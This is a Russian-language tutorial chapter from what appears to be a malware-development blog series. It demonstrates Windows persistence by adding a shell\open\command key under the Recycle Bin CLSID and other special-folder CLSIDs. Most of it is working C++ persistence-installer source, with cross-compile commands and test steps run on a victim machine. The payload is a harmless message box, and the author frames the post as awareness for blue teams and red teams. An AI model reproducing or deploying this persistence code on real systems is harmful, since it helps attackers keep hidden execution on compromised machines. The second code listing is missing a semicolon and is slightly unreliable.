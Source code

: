 \newpage
\subsection{87. разработка вредоносного ПО: закрепление (persistence) - часть 21. Корзина, Мои документы – обработчик расширения COM. Простой пример на C++.}

﷽

![pers](./images/85/2023-01-20_00-28.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через модификацию обработчика расширения COM для Корзины.     

### список CLSID

Некоторые специальные папки в операционной системе идентифицируются уникальными строками:      

- `{20d04fe0-3aea-1069-a2d8-08002b30309d}` - Мой компьютер     
- `{450d8fba-ad25-11d0-98a8-0800361b1103}` - Мои документы     
- `{208d2c60-3aea-1069-a2d7-08002b30309d}` - Сетевое окружение     
- `{1f4de370-d627-11d1-ba4f-00a0c91eedba}` - Сетевые компьютеры     
- `{2227a280-3aea-1069-a2de-08002b30309d}` - Принтеры и факсы      
- `{645ff040-5081-101b-9f08-00aa002f954e}` - Корзина       

Добавление подраздела `open\command` к CLSID и добавление нового действия для ключа `shell` приведет к выполнению значения, хранящегося в `\command`.      

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это приложение `meow-meow` messagebox (`hack.cpp`):  

```cpp
/*
hack.cpp
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем скрипт закрепления (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{645FF040-5081-101B-9F08-00AA002F954E}\\shell";

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}
```

Как можно видеть, логика проста.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, проверяем реестр:      

```powershell
reg query \
"HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" \
/s
```

![pers](./images/85/2023-01-19_23-39.png){width="80%"}    

Затем компилируем наше "вредоносное" ПО на машине атакующего (`kali`):    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-16.png){width="80%"}    

И для проверки корректности пробуем запустить `hack.exe` на машине жертвы (`Windows 10 x64` в моем случае):    

```powershell
.\hack.exe
```

![pers](./images/85/2023-01-19_23-49.png){width="80%"}    

Как можно видеть, наше "вредоносное" ПО работает идеально.    

На следующем шаге просто компилируем скрипт закрепления на машине атакующего:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/85/2023-01-19_23-35.png){width="80%"}    

Наконец, запускаем этот скрипт закрепления на машине жертвы и снова проверяем реестр:     

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Classes\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\shell" /s
```

![pers](./images/85/2023-01-20_00-19.png){width="80%"}    

Как можно видеть, добавлен подраздел и значение ключа установлено.    

Затем пробуем открыть Корзину:    

![pers](./images/85/2023-01-20_00-25.png){width="80%"}    

![pers](./images/85/2023-01-20_00-25_1.png){width="80%"}    

Если открыть `ProcessExplorer` и посмотреть свойства `hack.exe`:     

![pers](./images/85/2023-01-20_06-59.png){width="80%"}    

Можно заметить, что родительским процессом является `explorer.exe (1680)`.     

Идеально! =^..^=    

### а что насчет других CLSID из списка?    

Я внес небольшое изменение в скрипт закрепления:      

```cpp
/*
pers.cpp
windows persistence via
recycle bin COM extension handler
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/01/20/malware-pers-21.html
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  HKEY hkR = NULL;

  // shell
  const char* shell = 
  "SOFTWARE\\Classes\\CLSID\\{450d8fba-ad25-11d0-98a8-0800361b1103}\\shell"

  // evil app
  const char* exe = 
  "C:\\Users\\IEUser\\Desktop\\research\\2023-01-20-malware-pers-21\\hack.exe";

  // key
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)shell, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    res = RegCreateKeyExA(hkey, "open\\command", 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkR, NULL);
    if (res == ERROR_SUCCESS) {
      // update registry key value
      // reg add “HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\
      // {450d8fba-ad25-11d0-98a8-0800361b1103}\shell\open\command”
      // /ve /t REG_SZ /d "hack.exe" /f
      // RegSetValueEx(hkey, (LPCSTR)"open\\command", 0, REG_SZ, 
      // (unsigned char*)exe, strlen(exe));
      RegSetValueEx(hkR, NULL, 0, REG_SZ, (unsigned char*)exe, strlen(exe));
      RegCloseKey(hkR);
    // RegCloseKey(hkey);
    }
    RegCloseKey(hkey);
  }
  return 0;
}

```

Компилируем и запускаем на машине жертвы:      

```powershell
.\pers.exe
reg query \
"HKLM\SOFTWARE\Classes\CLSID\
{450d8fba-ad25-11d0-98a8-0800361b1103}\shell" /s
```

![pers](./images/85/2023-01-20_07-09.png){width="80%"}    

Но... Не работает у меня в Windows 10, так как используется это дурацкое меню "Пуск", и я не могу найти папку `Мои документы` на рабочем столе.    

Я также попробовал этот трюк с другим CLSID на машине `Windows 7 x86`. Он сработал для папки `Мой компьютер`.     

![pers](./images/85/2023-01-20_07-22.png){width="80%"}    

![pers](./images/85/2023-01-20_07-35.png){width="80%"}    

Я не знаю, использует ли этот трюк какая-либо APT-группа или семейство вредоносного ПО.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-01-20-malware-pers-21)     
